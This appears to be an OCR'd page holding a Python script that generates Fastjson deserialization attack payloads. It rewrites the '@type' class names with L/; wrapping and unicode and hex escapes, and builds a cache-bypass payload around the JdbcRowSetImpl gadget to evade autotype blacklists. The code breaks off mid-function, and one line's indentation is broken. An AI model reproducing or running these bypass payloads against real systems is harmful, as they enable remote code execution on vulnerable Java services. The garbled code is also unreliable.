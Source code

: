 ## Payload Transformation Script

```python
#!usr/bin/env python
# -*- coding:utf-8 -*-

import json
from json import JSONDecodeError


class FastJsonPayload:
    def __init__(self, base_payload):
        try:
            json.loads(base_payload)
        except JSONDecodeError as ex:
            raise ex
        self.base_payload = base_payload

    def gen_common(self, payload, func):
        tmp_payload = json.loads(payload)
        dct_objs = [tmp_payload]

        while len(dct_objs) > 0:
            tmp_objs = []
            for dct_obj in dct_objs:
                for key in dct_obj:
                    if key == "@type":
                        dct_obj[key] = func(dct_obj[key])

                    if type(dct_obj[key]) == dict:
                        tmp_objs.append(dct_obj[key])
            dct_objs = tmp_objs
        return json.dumps(tmp_payload)

    # Add the payload at the beginning of L to the value of @type and the ending
    def gen_payload1(self, payload: str):
        return self.gen_common(payload, lambda v: "L" + v + ";")

    # Add the payload at the beginning of LL to the value of @type, and ending with LL
    def gen_payload2(self, payload: str):
        return self.gen_common(payload, lambda v: "LL" + v + ";;")

    # Make a value of @type\u
    def gen_payload3(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\u{:04x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # Perform \x on @type's value
    def gen_payload4(self, payload: str):
        return self.gen_common(payload,
                               lambda v: ''.join('\\x{:02x}'.format(c) for c in v.encode())).replace("\\\\", "\\")

    # Generate cache to bypass payload
    def gen_payload5(self, payload: str):
cache_payload = {
            "rand1": {
                "@type": "java.lang.Class",
                "val": "com.sun.rowset.JdbcRowSetImpl"
            }
        }
        cache_payload["rand2"] = json.loads(payload)
```